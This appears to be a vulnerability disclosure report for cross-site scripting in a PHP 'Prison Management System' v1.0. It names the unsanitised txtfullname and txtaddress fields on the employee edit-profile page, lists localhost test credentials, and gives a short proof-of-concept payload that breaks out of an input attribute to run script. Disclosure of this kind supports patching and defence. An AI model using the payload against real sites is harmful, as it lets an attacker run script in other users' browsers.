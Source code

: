 # Prison Management System
## XSS on `/Employee/edit-profile.php`

### Vendor Homepage:

```
https://www.sourcecodester.com/sql/17287/prison-management-system.html
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://localhost/prison/Account/login.php
password:- escobar2012
Email :- releaseme@gmail.com
```

### Affected Page:

```
/Employee/edit-profile.php
```

The parameter  `txtfullname` and `txtaddress` are being echoed directly into the HTML without proper sanitization or validation. This allows an attacker to inject arbitrary JavaScript code into the page, leading to XSS attacks.

```php
# Employee/edit-profile.php
<input type="text" size="77" name="txtaddress" value=""><svg/onload=alert(1)>" class="form-control">
<input type="text" size="77" name="txtfullname" value=""><svg/onload=alert(1)>" class="form-control" required="">
```

### Proof of Concept:

Payload:

```
"><svg/onload=alert(1)>
```


### Screenshot
![1](https://github.com/user-attachments/assets/91a83b9f-452c-444d-98f9-9f242919d6c2)

![4](https://github.com/user-attachments/assets/d3d1bcb8-b20a-4b44-aed4-0be8299e30fb)

![3](https://github.com/user-attachments/assets/5087db72-8b45-44c6-ad3e-34157b78b11f)

![2](https://github.com/user-attachments/assets/8dff777a-2c8d-466b-a072-43523ae747d9)



